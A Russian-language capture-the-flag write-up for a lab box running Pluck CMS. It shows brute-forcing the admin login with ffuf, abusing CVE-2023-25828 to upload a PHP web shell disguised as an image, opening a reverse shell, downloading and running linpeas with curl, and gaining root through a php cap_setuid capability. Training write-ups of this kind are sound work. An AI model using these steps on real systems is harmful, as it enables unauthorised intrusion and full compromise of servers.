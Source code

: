 # Plucky-plucky

## Описание:
| Название | Сложность | Автор |
|------|-----|-------|
| Plucky-plucky | легкий | @collapsz |
## TLDR:

**CVE-2023-25828** в Pluck CMS, повышение привилегий через Linux Capabilities 

---
## Решение:
На веб-интерфейсе нас встречает система управления контентом Pluck CMS:

![изображение](https://github.com/user-attachments/assets/6c697af9-4fce-47e3-be79-8cff9caa9979)

Версия которой шустро узнается при помощи, например, `whatweb`:

![изображение](https://github.com/user-attachments/assets/ebdf199f-70cb-440c-94d8-f48acbf91097)

Шустрый ресерч подскажет нам вектор развития атаки: 

![изображение](https://github.com/user-attachments/assets/54119ae9-7d08-4672-9e72-3f7164fb7222)

Уязвимость в одном из модулей обработки изображений, однако она является `Authenticated`, значит нам нужно авторизоваться.
Пароль нам неизвестен, поэтому `ffuf` в помощь:

```
ffuf -u 'http://plucky.rdg/login.php' -d 'cont1=FUZZ&bogus=&submit=Log+in' -w /usr/share/wordlists/rockyou.txt
```
Узнаем пароль админа – `plucky12`, авторизуемся с ним и попадаем в админку. Дальше все как описано в CVE. 

Воспользуемся [Jellypeg](https://github.com/jra89/Jellypeg) для генерации полезной нагрузки, предварительно немного подредактировав скрипт и указав URL на существующее изображение:

![изображение](https://github.com/user-attachments/assets/69f2db36-98ba-47a0-b2c7-26b2ff136fb1)

Грузим нашу картинку (важно, чтобы расширение было легитимное):

![изображение](https://github.com/user-attachments/assets/14f68026-a3d5-410e-8287-327bb27bdbae)

Перехватываем запрос и в конец `filename` приписываем `.php`:
![изображение](https://github.com/user-attachments/assets/df9bd8c2-30b5-4d86-9e3b-057b75080acd)

![изображение](https://github.com/user-attachments/assets/09297685-df0f-4639-b6a1-ea85caa9901e)

"Картинка" успешно загружена:

![изображение](https://github.com/user-attachments/assets/38fdeadf-9aa0-4c28-865d-590baecc1860)

А на ручке `/images/image.jpg.php?c=id` нас уже ожидает RCE:

![изображение](https://github.com/user-attachments/assets/74aefae9-7e6d-441b-a57f-ee38832d98c3)

Пробрасываем себе реверс-шелл любым удобным способом:

![изображение](https://github.com/user-attachments/assets/ccdaa9e0-e31d-4d26-af90-5bebf5b1af84)

Для удобного перечисления ресурсов системы воспользуемся Linpeas:

```
curl https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/lin.sh && chmod +x /tmp/lin.sh && /tmp/lin.sh
```
Находим следующее:
```
www-data@c7e915851f7d:/var/www/html# getcap $(which php8.1)
/usr/bin/php8.1 cap_setuid=ep
```
Повышаемся [всем известный ресурс в помощь](https://gtfobins.github.io/gtfobins/php/):
```
CMD="/bin/sh"
$(which php8.1) -r "posix_setuid(0); system('$CMD');"
id
uid=0(root)
```
## Flag:
RDG{c63402a45aad5057636a6c456e1617ef}

